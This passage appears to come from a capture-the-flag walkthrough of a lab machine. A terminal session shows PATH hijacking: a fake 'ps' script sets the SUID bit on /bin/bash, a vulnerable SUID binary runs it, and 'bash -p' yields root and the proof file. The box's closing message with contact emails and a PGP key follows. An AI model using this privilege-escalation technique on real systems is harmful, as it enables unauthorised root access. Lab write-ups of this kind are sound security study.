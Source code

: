 ```Console
/sbin/mount.nfs
```

Lets try to do a path hijacking and assign suid to bash. So, lets create a ps in /home/ramses:
```Console
-bash-4.3$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/games
-bash-4.3$ export PATH=/home/ramses:$PATH
-bash-4.3$ echo $PATH
/home/ramses:/usr/local/bin:/usr/bin:/bin:/usr/games
-bash-4.3$ touch /home/ramses/ps
-bash-4.3$ echo "chmod u+s /bin/bash" > /home/ramses/ps
-bash-4.3$ cat /home/ramses/ps
chmod u+s /bin/bash
-bash-4.3$ cd /var/www/
backup/ html/
-bash-4.3$ cd /var/www/backup/
-bash-4.3$ ./procwatch
-bash-4.3$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1105840 Nov 13  2014 /bin/bash
-bash-4.3$ bash -p
bash-4.3# whoami
root
bash-4.3# id
uid=1002(ramses) gid=1002(ramses) euid=0(root) groups=1002(ramses)
bash-4.3# cat /root/proof.txt
adf11c7a9e6523e630aaf3b9b7acb51d

It seems that you have pwned the box, congrats.
Now you done that I wanna talk with you. Write a walk & mail at
xly0n@sigaint.org attach the walk and proof.txt
If sigaint.org is down you may mail at nbsly0n@gmail.com


USE THIS PGP PUBLIC KEY

-----BEGIN PGP PUBLIC KEY BLOCK-----
Version: BCPG C# v1.6.1.0

mQENBFW9BX8BCACVNFJtV4KeFa/TgJZgNefJQ+fD1+LNEGnv5rw3uSV+jWigpxrJ
Q3tO375S1KRrYxhHjEh0HKwTBCIopIcRFFRy1Qg9uW7cxYnTlDTp9QERuQ7hQOFT
e4QU3gZPd/VibPhzbJC/pdbDpuxqU8iKxqQr0VmTX6wIGwN8GlrnKr1/xhSRTprq
Cu7OyNC8+HKu/NpJ7j8mxDTLrvoD+hD21usssThXgZJ5a31iMWj4i0WUEKFN22KK
+z9pmlOJ5Xfhc2xx+WHtST53Ewk8D+Hjn+mh4s9/pjppdpMFUhr1poXPsI2HTWNe
YcvzcQHwzXj6hvtcXlJj+yzM2iEuRdIJ1r41ABEBAAG0EW5ic2x5MG5AZ21haWwu
Y29tiQEcBBABAgAGBQJVvQV/AAoJENDZ4VE7RHERJVkH/RUeh6qn116Lf5mAScNS
HhWTUulxIllPmnOPxB9/yk0j6fvWE9dDtcS9eFgKCthUQts7OFPhc3ilbYA2Fz7q
m7iAe97aW8pz3AeD6f6MX53Un70B3Z8yJFQbdusbQa1+MI2CCJL44Q/J5654vIGn
XQk6Oc7xWEgxLH+IjNQgh6V+MTce8fOp2SEVPcMZZuz2+XI9nrCV1dfAcwJJyF58
kjxYRRryD57olIyb9GsQgZkvPjHCg5JMdzQqOBoJZFPw/nNCEwQexWrgW7bqL/N8
TM2C0X57+ok7eqj8gUEuX/6FxBtYPpqUIaRT9kdeJPYHsiLJlZcXM0HZrPVvt1HU
Gms=
=PiAQ
-----END PGP PUBLIC KEY BLOCK-----
```
